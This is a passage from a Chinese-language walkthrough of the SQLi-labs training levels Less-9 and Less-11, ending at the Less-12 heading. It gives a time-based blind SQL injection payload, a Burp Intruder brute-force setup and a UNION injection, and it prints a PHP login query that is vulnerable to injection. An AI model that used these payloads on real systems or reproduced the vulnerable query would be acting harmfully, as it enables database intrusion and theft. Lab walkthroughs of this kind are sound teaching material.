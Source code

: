   ```

  ```
  http://127.0.0.1/sqlilabs/Less-9/
  ?id=1' and if(ascii(substr(database(),1,1))=100, sleep(5),1) -- s
  ```

  ![](/assets/images/9-5.png)

  BP开启拦截 => 抓包 => 转发至Intruder => 设置两个Payload位置（字符位置和ASCII码值）使用Clusterbomb模式

  ![](/assets/images/9-6.png)

  第一个Payload设置（字符位置）：数值1-8  对应数据库名长度为8

  ![](/assets/images/9-7.png)

  第二个Payload设置（ASCII码值）：数值97-122  为a-z对应ASCII码值

  ![](/assets/images/9-8.png)

  点击”开始攻击“  => 按长度进行排序筛选出所需的结果

  ![](/assets/images/9-9.png)

  让AI将ASCII码值转化为字符并排序

  得到数据库名security

  后续步骤与布尔盲注相同，这里不再赘述

### Less-11 

#### 1. 源码分析及漏洞利用

- POST 字符型 闭合单引号

  ```
  @$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
  ```

  有回显信息

  ```
  echo 'Your Login name:'. $row['username'];
  ```

  存在报错注入

  ```
  print_r(mysql_error());
  ```

- 联合查询同Less-1 方便起见只查询数据库

  ```
  1' union select database(),2 -- 
  ```

​	![](/assets/images/11-1.png)

### Less-12

#### 1. 源码分析及漏洞利用

  ```